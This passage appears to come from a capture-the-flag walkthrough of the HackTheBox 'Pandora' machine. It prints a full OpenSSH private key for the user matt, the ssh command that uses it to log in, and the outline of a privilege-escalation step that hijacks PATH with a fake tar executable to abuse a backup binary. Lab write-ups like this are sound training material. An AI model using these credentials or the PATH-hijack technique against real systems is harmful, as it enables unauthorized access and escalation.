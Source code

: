 #### code-id_rsa
```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAwUKNz2Ov2tYQjOYPEreHt7g8wqnQaGJAkvpbi5+9r/T1iOXbq/hu
EvBnHFk94YXL8UxwhTHzIoa0diY+XH+/eFwfi8cPTpn+yHtNMNmCOMtu7LBsM75UjAPqa2
56rfc+OVfWvayg6cdKXZ9tynO90Dfn5LxzyZxJDm59GKcDOY5Xip/s0YM41WvHxXjBfdZm
hdVRsXGBCfe/kMqDQcWWqZ/CZsRa/ME7zjO04OQb9WEPrvluaXsykH1ckuhPuc9TXqNU/n
lciexINkoC+RUT0eJtTRmeGU35v3L2VM4yckaaTLMp1jsJjSqQkkP46tr3wJoPmikmQHX8
02ssMv74mU3PKoIWREMG7HTXWakyQdhy2kuONnJGNu7VMKIrbBR/NTl5AKOPlZHeiXc+0u
qRapeNvLoECvCTYGcJ0dsCcT78FhuIa2chFbL+vb7RMDmA6Q1ibLPj5hLZO6z+n/o3hJ4e
36SnXexYvVsvi8SmxWSo1B++vJck/xCRsUtOtlmpAAAFiAT0arUE9Gq1AAAAB3NzaC1yc2
EAAAGBAMFCjc9jr9rWEIzmDxK3h7e4PMKp0GhiQJL6W4ufva/09Yjl26v4bhLwZxxZPeGF
y/FMcIUx8yKGtHYmPlx/v3hcH4vHD06Z/sh7TTDZgjjLbuywbDO+VIwD6mtueq33PjlX1r
2soOnHSl2fbcpzvdA35+S8c8mcSQ5ufRinAzmOV4qf7NGDONVrx8V4wX3WZoXVUbFxgQn3
v5DKg0HFlqmfwmbEWvzBO84ztODkG/VhD675bml7MpB9XJLoT7nPU16jVP55XInsSDZKAv
kVE9HibU0ZnhlN+b9y9lTOMnJGmkyzKdY7CY0qkJJD+Ora98CaD5opJkB1/NNrLDL++JlN
zyqCFkRDBux011mpMkHYctpLjjZyRjbu1TCiK2wUfzU5eQCjj5WR3ol3PtLqkWqXjby6BA
rwk2BnCdHbAnE+/BYbiGtnIRWy/r2+0TA5gOkNYmyz4+YS2Tus/p/6N4SeHt+kp13sWL1b
L4vEpsVkqNQfvryXJP8QkbFLTrZZqQAAAAMBAAEAAAGAYun0eQw1qpTbvbHWTyceUJr8hk
myAGshT9jR2CG3TYLb1OiIyXkKpajjrW/Dq1T2sBcGlDWfkrFNVhd23ZMI5cqI3trQa9OH
wwbQ2ErLStRcfspBZy5oSY2Lgtb19WpRL7pUj5n2dhDpcAe0guVAZnzmtHz76lmSTs+gOW
jpzqCbD7mQ1R8LjLhwdBK9PfHpYWBwQpisifSC2NG94oEF/uVk84JWa31fZcezMVOvN6Up
CM5jg5tpouh25D4A6EJDLT8F1fYxBRa2HdcX9rjhoabn+g0GTasUQfzBQAwAB5H2OX+xHm
ICsG8Rl3FQdnRKSY4e9jsCT/ZcQRju07nSlzWfKWIkWT+kMYP6LejPgvwFNFQQHeLPM5rb
epc1hCZ5XTCUyZXD0XSRqh8Am8H5ZY2ZfwrWwqxFSzRgnOV4gFm99V56WLDZ/Lzk5Cib4n
OgBdqKzwifxY45GxcZD3Fp7sT0lPiGQaHROYzReg2BTtj7iPjUxNUmWw+G6sO66pDNAAAA
wQDn6URSHsvxBnikQX8twCiwY1LDnrrrwZhm1f6R2yXpWD5//9HsRMCvYBy/14bp4O1b+l
1zuOwgKwJocfVXwJXhP8ui6PbbMHlknx+veZd9MzjeFmbYYJ5TAG5iyrLtJIapTf+nsg8z
wKRhr8xEMiCKse0vsHlNrf7FrVzYC3RtM08jL0kb533gGMjmOUYkkIXZoIRCw1O1v8LysW
0YfOzmQLBhsqr1Kt08rIOGzI+Euk3lNHdT4Y4ruqP23RHruFkAAADBAPmPQmsR8V2N6hG3
8ko2jCLjBcRsBVnqPcdY/t1wdIZv0amcURk7Xgf6ZFsLjdte9TE3q6zivlFiI3QhnAPwuA
sBpZum+36j/zdGuu4j2ZYcZ5iNybsTNv+h+vEILuY92i7IW9zxJOSBW42MFAKbe9ApHQbX
ntYMXUShT3kOeccC9NBYBwcZurSokF8t915c8VV1Bl0y8polkPbV4eaRKhjQratrTTs7KC
hKdFfzhxBWd12PCMQXORHbw103Yv7A7wAAAMEAxj9YaJ5qOY0W2SJjP1YizMAvDrYQw1kB
FX/xjZDUclCXiXQ6HUSIbr6MIXZYTYTnOymDRM586hqd9hYlpM4E1dKsZK3dOX1/134FNE
+k+iJLxmf89YWfjJRk6xo528B8KoDhtyh7C5uHC/DTGdyUlJHvscC9YAjt3ELsr3eeA1YP
DHWXsucaZec6QfrteMEPJEVD2PRa5i1bAMjDTb4AVLGVLomR/Dnw4gLDtoujsTjSlxUY7g
GeRu3MTcDq6d7nAAAADG1hdHRAcGFuZG9yYQECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

so you can ssh using the following code.

#### code-ssh matt
```bash
ssh matt@pandora.htb -i id_rsa
```

#### output

I downloaded `pandora_backup` it to my machine and did some testing, and it looks like it uses the `tar` command to compress files.Change to `matt's `user directory, then create a `fake tar executable`, and inject matt's home path into the PATH variable.
